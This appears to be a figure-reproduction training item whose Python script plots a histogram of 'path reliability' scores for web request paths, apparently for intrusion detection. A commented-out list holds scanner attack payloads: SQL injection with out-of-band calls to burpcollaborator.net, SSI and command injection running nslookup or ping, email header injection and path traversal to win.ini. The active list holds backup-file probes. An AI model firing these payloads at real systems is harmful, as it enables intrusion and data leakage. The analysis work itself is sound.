

Write the Python code that produced this figure.
#%%
import numpy as np
from matplotlib import pyplot as plt

#sec2sec
#path_reliabilities_tuple = [('history.php', 1.0), ('transactions.php', 1.0), ('api.php', 1.0), ('userinfo.php', 0.2), ('portal.php', 0.6), ('login.php', 0.2), ('logout.php', 0.2), ('Pe-icon-7-stroke.woff', 1.0), ('fontawesome-webfont.woff', 1.0), ('glyphicons-halflings-regular.woff2', 1.0), ('clientaccesspolicy.xml', 0.2), ('crossdomain.xml', 0.2), ('robots.txt', 0.2), ('trace.axd', 0.2), ('/', 0.8), ('api.php', 1.0), ('kl5gi89o8z', 0.19999999999999998), ("(select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%20ihiij%20SYSTEM%20%22http%3A%2F%2F6x4iekwyo4wikcfvx4ksle4u1l7d619p3cv0k.burpcollab'%7C%7C'orator.net%2F%22%3E%25ihiij%3B%5D%3E')%2C'%2Fl')%20from%20dual)", 0.19999999999999998), ("1'%7C%7C(select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%20ihiij%20SYSTEM%20%22http%3A%2F%2Fvrq789qnitq7e19krtehf3yjva120q4ey1qpf.burpcollab'%7C%7C'orator.net%2F%22%3E%25ihiij%3B%5D%3E')%2C'%2Fl')%20from%20dual)%7C%7C'", 0.19999999999999998), ("1%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Ct0u5h7zlrrz5nzii0rnfo17h48a09o0eo8b0zp.burpcollab'%2B'orator.net%5Cuku'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("1'%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5C3jnf0hiva1if691sj16p7bqrnitasyjp7jubi0.burpcollab'%2B'orator.net%5Cqwf'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("1)%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Cwnn84amoeum8a25lnuaib4ukrbx3wrnjbdy5mu.burpcollab'%2B'orator.net%5Cxxu'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("1')%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Czwzbddvrnxvbj5eowxjlk73n0e665uwnkh79vy.burpcollab'%2B'orator.net%5Chwb'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("(select%20load_file('%5C%5C%5C%5Cl6sxnz5dxj5xtroa6jt7utd9a0gsfg6iuch45t.burpcollaborator.net%5C%5Cdek'))", 0.19999999999999998), ("1'%2B(select%20load_file('%5C%5C%5C%5Cdfwpwre56bep2jx2fb2z3lm1jspko8fb35qxem.burpcollaborator.net%5C%5Cici'))%2B'", 0.19999999999999998), ("1%20into%20outfile%20'%5C%5C%5C%5Cqnh244mieom2aw5fnoacbyuer5xxwlnpbjybm0.burpcollaborator.net%5C%5Cbjt'%3B%20--%20", 0.19999999999999998), ("1'", 0.39999999999999997), ("1''", 0.39999999999999997), ('(select*from(select(sleep(20)))a)', 0.19999999999999998), ('1%2B(select*from(select(sleep(20)))a)%2B', 0.19999999999999998), ('1%20and%20(select*from(select(sleep(20)))a)--%20', 0.19999999999999998), ("1%20waitfor%20delay'0%3A0%3A20'--", 0.19999999999999998), ("1)waitfor%20delay'0%3A0%3A20'--", 0.19999999999999998), ("1%2C0)waitfor%20delay'0%3A0%3A20'--", 0.19999999999999998), ('150470837%20or%201535%3D01535', 0.19999999999999998), ('189325721%20or%204844%3D4851', 0.19999999999999998), ('198355041%20or%207934%3D07934--%20', 0.19999999999999998), ('129916913%20or%208239%3D8241--%20', 0.19999999999999998), ('1%20and%206596%3D06596', 0.19999999999999998), ('1%20and%202288%3D2297', 0.19999999999999998), ('1%20and%202139%3D02139--%20', 0.19999999999999998), ('1%20and%205132%3D5136--%20', 0.19999999999999998), ("195100646'%20or%20'3006'%3D'3006", 0.19999999999999998), ("139580059'%20or%20'7228'%3D'7231", 0.19999999999999998), ("187196161'%20or%206666%3D6666--%20", 0.19999999999999998), ("135703212'%20or%209800%3D9806--%20", 0.19999999999999998), ("1'%20and%20'4216'%3D'4216", 0.19999999999999998), ("1'%20and%20'5094'%3D'5100", 0.19999999999999998), ("1'%20and%207560%3D7560--%20", 0.19999999999999998), ("1'%20and%203493%3D3499--%20", 0.19999999999999998), ('1%22', 0.19999999999999998), ('rhqpm$%7B880*846%7Dhewpa', 0.19999999999999998), ('vyzbt%7B%7B205*653%7D%7Dqcxn5', 0.19999999999999998), ("1%7D%7Dsotzl'%2F%22%3Cwzff3", 0.19999999999999998), ("1%25%7Deu35w'%2F%22%3Cqoo15", 0.19999999999999998), ("1eeaqd%25%3Epg2e2'%2F%22%3Cigeng", 0.19999999999999998), ("eval(compile('for%20x%20in%20range(1)%3A%5Cn%20import%20time%5Cn%20time.sleep(20)'%2C'a'%2C'single'))", 0.19999999999999998), ("(function()%7Bif(typeof%20sfcu5%3D%3D%3D'undefined')%7Bvar%20a%3Dnew%20Date()%3Bdo%7Bvar%20b%3Dnew%20Date()%3B%7Dwhile(b-a%3C20000)%3Bsfcu5%3D1%3B%7D%7D())", 0.19999999999999998), ("1'%2B(function()%7Bif(typeof%20m5m7u%3D%3D%3D%22undefined%22)%7Bvar%20a%3Dnew%20Date()%3Bdo%7Bvar%20b%3Dnew%20Date()%3B%7Dwhile(b-a%3C20000)%3Bm5m7u%3D1%3B%7D%7D())%2B'", 0.19999999999999998), ("%22--%3E'--%3E%60--%3E%3C!--%23set%20var%3D%228wu%22%20value%3D%227vtjcluzm5%22--%3E%3C!--%23set%20var%3D%22ayw%22%20value%3D%229xvlenw1o7%22--%3E%3C!--%23echo%20var%3D%228wu%22--%3E%3C!--%23echo%20var%3D%22ayw%22--%3E%3C!--%23exec%20cmd%3D%22nslookup%20-q%3Dcname%20uig6z8hm9sh6500jis5g62pim9s1rpjn7hu9iy.burpcollaborator.net%22%20--%3E", 0.19999999999999998), ('1%0D%0ABCC%3As0t4h6zkrqz4nyih0qneo07g47az9n1gpac20r@burpcollaborator.net%0D%0Atdw%3A%20z', 0.19999999999999998), ('1%3E%0D%0ABCC%3Av517m94nwt47s1nk5tsht3cj9af2eq6kueh65v@burpcollaborator.net%0D%0Ahah%3A%20x', 0.19999999999999998), ('21zkdkwij1', 0.2), ('api.phpsnu0y8ukoj', 0.2), ("l')%20from%20dual)", 0.2), ("l')%20from%20dual)%7C%7C'", 0.2), ("api.php%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Cosk092rgjmr0fuadsmfagwzcw32v1js9g08nybn.burpcollab'%2B'orator.net%5Cauz'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("api.php'%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Co7w0o26gym60uupd7muavwecb3hvgj7av1nodc2.burpcollab'%2B'orator.net%5Cdgh'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("api.php)%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Cc4holq34va3orim14aryskb08rejd74zsqkda1z.burpcollab'%2B'orator.net%5Cctq'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("api.php')%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5C121djf1ttz1dp7kq2zpnq99p6gc8bw2pqgi38rx.burpcollab'%2B'orator.net%5Cvsj'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("(select%20load_file('%5C%5C%5C%5C345flh3vv13fr9ms41rpsbbr8ieady40srkea2z.burpcollaborator.net%5C%5Cotz'))", 0.2), ("api.php'%2B(select%20load_file('%5C%5C%5C%5C7t1jalszk5sjgdbwt5gthf0vxm3e22t5hw9jz7o.burpcollaborator.net%5C%5Cdbg'))%2B'", 0.2), ("api.php'", 0.4), ("api.php''", 0.4), ("api.php'(select*from(select(sleep(20)))a)'", 0.2), ("api.php'%2B(select*from(select(sleep(20)))a)%2B'", 0.2), ("api.php'%20and%20(select*from(select(sleep(20)))a)--%20", 0.2), ('api.php%2C(select*from(select(sleep(20)))a)', 0.2), ("api.php'%20waitfor%20delay'0%3A0%3A20'--", 0.2), ("api.php')waitfor%20delay'0%3A0%3A20'--", 0.2), ("api.php'%2C0)waitfor%20delay'0%3A0%3A20'--", 0.2), ("api.php29182204'%20or%20'8314'%3D'8314", 0.2), ("api.php13634617'%20or%20'4416'%3D'4424", 0.2), ("api.php53379022'%20or%209234%3D9234--%20", 0.2), ("api.php48549457'%20or%204837%3D4845--%20", 0.2), ("api.php'%20and%20'2811'%3D'2811", 0.2), ("api.php'%20and%20'8528'%3D'8531", 0.2), ("api.php'%20and%202382%3D2382--%20", 0.2), ("api.php'%20and%204777%3D4786--%20", 0.2), ('api.php%22', 0.2), ('mrd3y$%7B535*665%7Dkn3ud', 0.2), ('s1s5h%7B%7B707*357%7D%7Dgodon', 0.2), ('%22%3Cymj6t', 0.2), ('%22%3Cv2fud', 0.2), ('%22%3Cthyy3', 0.2), ("api.php'%2Bsleep(20.to_i)%2B'", 0.2), ("api.php'%2Beval(compile('for%20x%20in%20range(1)%3A%5Cn%20import%20time%5Cn%20time.sleep(20)'%2C'a'%2C'single'))%2B'", 0.2), ("eval(compile('for%20x%20in%20range(1)%3A%5Cn%20import%20time%5Cn%20time.sleep(20)'%2C'a'%2C'single'))", 0.2), ("api.php'.sleep(20).'", 0.2), ('api.php%7B$%7Bsleep(20)%7D%7D', 0.2), ('57ahoj6xy36hubpu73urvdetbkhcg08ozgm6av.burpcollaborator.net', 0.2), ('%3Fapi.php', 0.2), ('api.php%7Cnslookup%20-q%3Dcname%20ylna2ckqcwka843nlw8k96smpdv5utqhh94zso.burpcollaborator.net.%26', 0.2), ("api.php'%22%600%26nslookup%20-q%3Dcname%20b3fnkp23u92nqhl039qxrjaz7qdic69u0mncb1.burpcollaborator.net.%26%60'", 0.2), ("api.php%26nslookup%20-q%3Dcname%20435gki2wu22gqalt32qqrcas7jdbcz7nyfl59u.burpcollaborator.net.%26'%5C%22%600%26nslookup%20-q%3Dcname%20435gki2wu22gqalt32qqrcas7jdbcz7nyfl59u.burpcollaborator.net.%26%60'", 0.2), ("api.php%7Cecho%20qa04v11fk2%20k7s2an60gl%7C%7Ca%20%23'%20%7Cecho%20qa04v11fk2%20k7s2an60gl%7C%7Ca%20%23%7C%22%20%7Cecho%20qa04v11fk2%20k7s2an60gl%7C%7Ca%20%23", 0.2), ('api.php%26echo%20sezkl6csmh%20z8efpyewj5%26', 0.2), ('api.php%22%7Cecho%204l5k4ad3cs%20gwx0f9gg0x%20%7C%7C', 0.2), ("api.php'%7Cecho%20o65o7j5n3l%20edi6ed9hm1%20%23xzwx", 0.2), ("api.php%7Cping%20-n%2021%20127.0.0.1%7C%7C%60ping%20-c%2021%20127.0.0.1%60%20%23'%20%7Cping%20-n%2021%20127.0.0.1%7C%7C%60ping%20-c%2021%20127.0.0.1%60%20%23%5C%22%20%7Cping%20-n%2021%20127.0.0.1", 0.2), ('api.php%7Cping%20-c%2021%20127.0.0.1%7C%7Cx', 0.2), ('api.php%26ping%20-n%2021%20127.0.0.1%26', 0.2), ("api.php'%7Cping%20-c%2021%20127.0.0.1%20%23", 0.2), ('api.php%22%7Cping%20-n%2021%20127.0.0.1%20%7C%7C', 0.2), ('..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwindows%5Cwin.ini', 0.2), ('c%3A%5Cwindows%5Cwin.ini', 0.2), ('api.php..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwindows%5Cwin.ini', 0.2), ('..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwindows%5Cwin.ini%00api.php', 0.2), ('passwd', 0.2), ('qtk%3E', 0.2), ('ouu%3E', 0.2), ('api.php%5D%5D%3E%3E%3C', 0.2), ("api.php'%2B(function()%7Bif(typeof%20lrzcz%3D%3D%3D%22undefined%22)%7Bvar%20a%3Dnew%20Date()%3Bdo%7Bvar%20b%3Dnew%20Date()%3B%7Dwhile(b-a%3C20000)%3Blrzcz%3D1%3B%7D%7D())%2B'", 0.2), ("%22--%3E'--%3E%60--%3E%3C!--%23set%20var%3D%22b9a%22%20value%3D%22a89mpo72z8%22--%3E%3C!--%23set%20var%3D%22dbc%22%20value%3D%22caborq941a%22--%3E%3C!--%23echo%20var%3D%22b9a%22--%3E%3C!--%23echo%20var%3D%22dbc%22--%3E%3C!--%23exec%20cmd%3D%22nslookup%20-q%3Dcname%20xvw9cbupmvu9i3dmvvijj52lzc544swqkhc42sr.burpcollaborator.net%22%20--%3E", 0.2), ('api.php%0D%0ABCC%3Aii4uzwha9ghu5o07ig546qp6mxsprdj67xzkp8e@burpcollaborator.net%0D%0Auoc%3A%20b', 0.2), ('api.php%3E%0D%0ABCC%3Akymwfyxcpixwlqg9yil6ms582z8r7fz9n0fn5bu@burpcollaborator.net%0D%0Avvf%3A%20h', 0.2), ('api.php', 0.2), ('passwd', 0.39999999999999997), ('passwd%00api.php', 0.19999999999999998)]
path_reliabilities_tuple = [('zarauz.jpg', 1.0), ('castro.jpg', 1.0), ('ogono.jpg', 1.0), ('asf-logo-wide.gif.old', 0.16666666666666666), ('6909030637832563290.jsp.old', 0.16666666666666666), ('asf-logo-wide', 0.16666666666666666), ('ogono.jpg.old', 0.16666666666666666), ('.inc', 0.16666666666666666), ('castro.jpg.Inc', 0.16666666666666666), ('asf-logo-wide.OLD', 0.16666666666666666), ('.Old', 0.16666666666666666), ('.OLD', 0.16666666666666666), ('4861362529278789730', 0.16666666666666666), ('4861362529278789730.OLD', 0.16666666666666666), ('asf-logo-wide', 0.16666666666666666), ('asf-logo-wide.gif', 0.16666666666666666), ('4861362529278789730', 0.16666666666666666), ('6909030637832563290.jsp', 0.16666666666666666), ('zarauz.jpg.inc', 0.16666666666666666), ('asf-logo-wide.gif', 0.16666666666666666), ('6909030637832563290.jsp', 0.16666666666666666), ('.Old', 0.16666666666666666), ('zarauz.jpg~', 0.16666666666666666), ('editar.jsp', 1.0), ('salir.jsp', 1.0), ('imagenes.BAK', 0.1111111111111111), ('index.jsp', 0.2222222222222222), ('index.jsp.INC', 0.1111111111111111), ('4861362529278789730.INC', 0.1111111111111111), ('asf-logo-wide~', 0.1111111111111111), ('asf-logo-wide.java', 0.1111111111111111), ('6909030637832563290.jsp~', 0.1111111111111111), ('.INC', 0.1111111111111111), ('.OLD', 0.1111111111111111), ('asf-logo-wide.gif', 0.1111111111111111), ('4861362529278789730.Bak', 0.1111111111111111), ('asf-logo-wide.gif.old', 0.1111111111111111), ('4861362529278789730.BAK', 0.1111111111111111), ('asf-logo-wide', 0.1111111111111111), ('6909030637832563290.jsp', 0.1111111111111111), ('.old', 0.1111111111111111), ('salir.jsp.Inc', 0.1111111111111111), ('~', 0.1111111111111111), ('asf-logo-wide.Bak', 0.1111111111111111), ('index.jsp.BAK', 0.1111111111111111), ('asf-logo-wide.gif', 0.1111111111111111), ('editar.jsp.bak', 0.1111111111111111), ('index.jsp.inc', 0.1111111111111111), ('asf-logo-wide.gif.inc', 0.1111111111111111), ('4861362529278789730.bak', 0.1111111111111111), ('.java', 0.1111111111111111), ('6909030637832563290.jsp.INC', 0.1111111111111111), ('index.jsp', 1.0), ('anadir.jsp', 0.06896551724137931), ('autenticar.jsp', 0.06896551724137931), ('pagar.jsp', 0.06896551724137931), ('vaciar.jsp', 0.13793103448275862), ('registro.jsp', 0.06896551724137931), ('asf-logo-wide.gif~', 0.034482758620689655), ('~', 0.034482758620689655), ('.BAK', 0.034482758620689655), ('asf-logo-wide', 0.034482758620689655), ('entrar.jsp', 0.06896551724137931), ('caracteristicas.jsp', 0.06896551724137931), ('4861362529278789730.OLD', 0.034482758620689655), ('.OLD', 0.034482758620689655), ('productos.jsp.Inc', 0.034482758620689655), ('productos.jsp.Bak', 0.034482758620689655), ('carrito.jsp.bak', 0.034482758620689655), ('carrito.jsp~', 0.034482758620689655), ('4861362529278789730.Inc', 0.034482758620689655), ('caracteristicas.jsp.Bak', 0.034482758620689655), ('miembros.jsp', 0.034482758620689655), ('asf-logo-wide.gif.BAK', 0.034482758620689655), ('autenticar.jsp.inc', 0.034482758620689655), ('4861362529278789730.Old', 0.034482758620689655), ('productos.jsp.old', 0.034482758620689655), ('anadir.jsp.inc', 0.034482758620689655), ('asf-logo-wide', 0.06896551724137931), ('1.gif.BAK', 0.034482758620689655), ('logo.gif.old', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('1.gif.OLD', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('6909030637832563290.jsp.OLD', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('6909030637832563290.jsp.OLD', 0.034482758620689655), ('.BAK', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('asf-logo-wide', 0.034482758620689655), ('4861362529278789730~', 0.034482758620689655), ('nuestratierra.jpg', 0.06896551724137931), ('3.gif', 0.06896551724137931), ('.OLD', 0.034482758620689655), ('2.gif.INC', 0.034482758620689655), ('3.gif.Old', 0.034482758620689655), ('asf-logo-wide.gif', 0.034482758620689655), ('4861362529278789730.bak', 0.034482758620689655), ('.OLD', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('.BAK', 0.034482758620689655), ('3.gif.Inc', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('.Old', 0.034482758620689655), ('.OLD', 0.034482758620689655), ('.Old', 0.034482758620689655), ('4861362529278789730.INC', 0.034482758620689655), ('asf-logo-wide.Bak', 0.034482758620689655), ('asf-logo-wide~', 0.034482758620689655), ('4861362529278789730.BAK', 0.034482758620689655), ('4861362529278789730.BAK', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('asf-logo-wide.Bak', 0.034482758620689655), ('4861362529278789730.Bak', 0.034482758620689655), ('asf-logo-wide.gif', 0.034482758620689655), ('cmenbul.gif.old', 0.034482758620689655), ('1.gif.old', 0.034482758620689655), ('asf-logo-wide.Inc', 0.034482758620689655), ('asf-logo-wide.gif.Old', 0.034482758620689655), ('cmenbul.gif~', 0.034482758620689655), ('3.gif.bak', 0.034482758620689655), ('1.gif', 0.06896551724137931), ('2.gif', 0.06896551724137931), ('cmenbul.gif', 0.06896551724137931), ('logo.gif', 0.06896551724137931), ('asf-logo-wide.java', 0.034482758620689655), ('.java', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('6909030637832563290.jsp.INC', 0.034482758620689655), ('.INC', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('asf-logo-wide.gif.Old', 0.06896551724137931), ('estilos.css.INC', 0.034482758620689655), ('asf-logo-wide.gif', 0.034482758620689655), ('4861362529278789730.java', 0.034482758620689655), ('estilos.css.Bak', 0.034482758620689655), ('titulo.jsp.Inc', 0.034482758620689655), ('4861362529278789730.Inc', 0.034482758620689655), ('asf-logo-wide.bak', 0.034482758620689655), ('6909030637832563290.jsp.inc', 0.034482758620689655), ('asf-logo-wide.gif.Bak', 0.034482758620689655), ('titulo.jsp', 0.06896551724137931), ('titulo.jsp.old', 0.06896551724137931), ('menum.jsp.inc', 0.034482758620689655), ('asf-logo-wide.gif', 0.034482758620689655), ('titulo.jsp.OLD', 0.034482758620689655), ('asf-logo-wide.bak', 0.034482758620689655), ('estilos.css.BAK', 0.034482758620689655), ('menum.jsp.INC', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('menum.jsp', 0.06896551724137931), ('estilos.css', 0.06896551724137931), ('4861362529278789730.java', 0.034482758620689655), ('global.inc', 0.034482758620689655), ('asf-logo-wide.gif', 0.10344827586206896), ('4861362529278789730.bak', 0.034482758620689655), ('asf-logo-wide.BAK', 0.034482758620689655), ('asf-logo-wide.Bak', 0.034482758620689655), ('asf-logo-wide.java', 0.034482758620689655), ('4861362529278789730.OLD', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('asf-logo-wide.INC', 0.034482758620689655), ('index.jsp.Bak', 0.034482758620689655), ('.old', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('6909030637832563290.jsp', 0.034482758620689655), ('.OLD', 0.034482758620689655), ('.BAK', 0.034482758620689655), ('.OLD', 0.034482758620689655), ('.INC', 0.034482758620689655), ('imagenes~', 0.034482758620689655), ('imagenes.Old', 0.034482758620689655), ('imagenes.INC', 0.06896551724137931), ('imagenes.Inc', 0.06896551724137931), ('global~', 0.034482758620689655), ('index.jsp.BAK', 0.034482758620689655), ('.Bak', 0.034482758620689655), ('4861362529278789730.inc', 0.034482758620689655), ('asf-logo-wide.gif.Old', 0.034482758620689655), ('4861362529278789730', 0.034482758620689655), ('4861362529278789730.Bak', 0.034482758620689655), ('imagenes', 0.034482758620689655), ('6909030637832563290.jsp.Bak', 0.034482758620689655), ('4861362529278789730~', 0.034482758620689655), ('iisstart.htm', 0.02631578947368421), ('home.jsp', 0.05263157894736842), ('6909030637832563290.jsp.OLD', 0.02631578947368421), ('achg.htr', 0.02631578947368421), ('aexp4.htr', 0.02631578947368421), ('aexp2b.htr', 0.02631578947368421), ('anot.htr', 0.02631578947368421), ('aexp.htr', 0.02631578947368421), ('aexp3.htr', 0.02631578947368421), ('mkilog.exe', 0.02631578947368421), ('drvrs.exe', 0.02631578947368421), ('dsnform.exe', 0.02631578947368421), ('WebservicesEJB.jsp', 0.02631578947368421), ('index.jsp', 0.02631578947368421), ('InteractiveQuery.jsp', 0.05263157894736842), ('index.html', 0.05263157894736842), ('annotated-index.html', 0.02631578947368421), ('names.nsf', 0.02631578947368421), ('asf-logo-wide', 0.02631578947368421), ('SimpleQuery_VBScript.asp', 0.02631578947368421), ('MultiScrolling_VBScript.asp', 0.02631578947368421), ('LimitRows_VBScript.asp', 0.02631578947368421), ('toolbar.asp', 0.02631578947368421), ('ColorPicker.asp', 0.02631578947368421), ('sampfram.asp', 0.02631578947368421), ('Session_JScript.asp', 0.02631578947368421), ('.old', 0.02631578947368421), ('~', 0.02631578947368421), ('Login.portal', 0.02631578947368421), ('6909030637832563290.jsp', 0.02631578947368421), ('shtml.dll', 0.02631578947368421), ('author.dll', 0.02631578947368421), ('fpcount.exe', 0.02631578947368421), ('logon.jsp', 0.02631578947368421), ('login.do', 0.02631578947368421), ('.Inc', 0.02631578947368421), ('index.html', 0.05263157894736842), ('/', 0.07894736842105263), ('tienda1.INC', 0.02631578947368421), ('asf-logo-wide.java', 0.02631578947368421), ('about.htm', 0.02631578947368421), ('catalog.htm', 0.02631578947368421), ('taste.htm', 0.02631578947368421), ('styles2.htm', 0.02631578947368421), ('adcjavas.inc', 0.02631578947368421), ('readme.txt', 0.02631578947368421), ('msadcs.dll', 0.02631578947368421), ('4861362529278789730', 0.05263157894736842), ('tienda1.OLD', 0.02631578947368421), ('6909030637832563290.jsp.inc', 0.02631578947368421), ('_vti_script', 0.02631578947368421), ('tienda1.Bak', 0.02631578947368421), ('deptodoc.btr', 0.02631578947368421), ('botinfs.cnf', 0.02631578947368421), ('bots.cnf', 0.02631578947368421), ('theme', 0.02631578947368421), ('.BAK', 0.02631578947368421), ('cdlist', 0.02631578947368421), ('catalog', 0.02631578947368421), ('welcomedoc.cfm', 0.02631578947368421), ('welcomeexapps.cfm', 0.02631578947368421), ('homepage.cfm', 0.02631578947368421), ('logout.cfm', 0.02631578947368421), ('aboutcf.cfm', 0.05263157894736842), ('welcomefooter.cfm', 0.02631578947368421), ('header.cfm', 0.02631578947368421), ('welcome.cfm', 0.02631578947368421), ('welcomestart.cfm', 0.02631578947368421), ('enter.cfm', 0.02631578947368421), ('4861362529278789730.java', 0.02631578947368421), ('admin4.nsf', 0.02631578947368421), ('ping', 0.02631578947368421), ('showcfg', 0.02631578947368421), ('asf-logo-wide.gif', 0.05263157894736842), ('tienda1~', 0.05263157894736842), ('.jsp', 0.07894736842105263), ('webadmin.nsf', 0.02631578947368421), ('_vti_pvt', 0.02631578947368421), ('~', 0.02631578947368421), ('FlashJavaBean.html', 0.02631578947368421), ('asf-logo-wide.Bak', 0.02631578947368421), ('tienda1.inc', 0.02631578947368421), ('_vti_bin', 0.02631578947368421), ('HelloWorldServlet', 0.02631578947368421), ('SimpleServlet', 0.02631578947368421), ('ErrorReporter', 0.02631578947368421), ('snoop2', 0.02631578947368421), ('hello', 0.02631578947368421), ('asf-logo-wide.gif.inc', 0.02631578947368421), ('tienda1.old', 0.02631578947368421), ('loanCalculation.jsp', 0.02631578947368421), ('tienda1.Inc', 0.02631578947368421), ('homepage.nsf', 0.02631578947368421), ('4861362529278789730.bak', 0.02631578947368421), ('logon.jsp', 0.02631578947368421), ('asf-logo-wide.Old', 0.05263157894736842), ('webapp.properties', 0.02631578947368421), ('6909030637832563290.jsp.java', 0.02631578947368421), ('login.do', 0.02631578947368421), ('HowToReachUs.asp', 0.02631578947368421), ('register.do', 0.02631578947368421), ('events4.nsf', 0.02631578947368421), ('tienda1.Old', 0.02631578947368421), ('admin.nsf', 0.02631578947368421), ('asf-logo-wide.old', 0.02631578947368421), ('asf-logo-wide.gif.BAK', 0.02631578947368421), ('increment.html', 0.02631578947368421), ('editar.jsp', 1.0), ('anadir.jsp', 0.15384615384615383), ('autenticar.jsp', 0.15384615384615383), ('caracteristicas.jsp', 0.15384615384615383), ('entrar.jsp', 0.15384615384615383), ('pagar.jsp', 0.15384615384615383), ('registro.jsp', 0.15384615384615383), ('vaciar.jsp', 0.15384615384615383)]
path_reliabilities = []
for t in path_reliabilities_tuple:
    path_reliabilities.append(t[1])

print(path_reliabilities)
val_under = np.percentile(path_reliabilities, 60)
val_upper = np.percentile(path_reliabilities, 90)
print(val_under)
alert_paths =[]
no_alert_paths = []
for t in path_reliabilities_tuple:
    if t[1]<=val_under:
        print(t)
        alert_paths.append(t[1])
    else:
        no_alert_paths.append(t[1])
    if t[1]>=val_upper:
        #print(t)
        pass

plt.hist([alert_paths,no_alert_paths], color=['Red', 'Blue'],bins=20)
plt.title("Path Reliabilities")
plt.xlabel("Reliability")
plt.ylabel("Number of different Resources")
plt.show()

